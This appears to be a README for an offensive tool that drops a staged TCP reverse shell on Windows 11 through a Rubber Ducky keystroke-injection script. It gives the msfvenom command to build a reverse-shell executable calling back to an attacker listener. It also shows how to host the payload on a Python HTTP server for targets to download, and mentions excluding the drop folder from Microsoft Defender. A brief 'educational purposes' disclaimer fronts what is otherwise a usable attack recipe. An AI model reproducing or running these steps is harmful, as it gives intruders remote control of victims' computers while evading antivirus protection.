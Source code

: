 # README

This code does not promote or encourage any illegal activities. The content in this document is provided solely for
educational purposes and to create awareness.

# Staged TCP Reverse Shell with Rubber Ducky script within Windows Terminal

Since Microsoft pushed the latest 22H2 up-date for Windows 11 all Powershell reverse shell payloads have stopped working. Microsoft made changes to the way commandline tools are being opened. Everything will be opened in the new "Windows Terminal" and the "powershell -nop -noni -W hidden" commands are not working anymore.

This Reverse Shell script is tested on the latest Windows version and is working properly.

Requirements:

- The executable itself - Step 1
- HTTP server to host the shell executable - Step 2

## 1 - craft malicious executable

I'm using a Staged Meterpreter TCP reverse shell executable. To craft one you can use "msfvenom" with the following command:

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=[IP-LISTENER] LPORT=[PORT-LISTENER] -f exe > payload.exe`

Change the LHOST and LPORT to your own listener server.

## 2- ducky script and execute

Within your linux box navigate to the shell.exe location. I'm using a Python webserver to host the executable so I can use this URL in the script to download the exe file:

`python3 -m http.server 80`

Next, change the variables in the script:

- LINE 25 === VARIABLES
  Changing the paths is optional. I'm using C:\temp to create the folder and exclude it withint MS Defender. If you want a different path or executable name you can change them
- LINE 36 === URL
  This one is important because the target computers needs to download your crafted executable. Fill in the URL of your HTTP server and specify the folder/filename
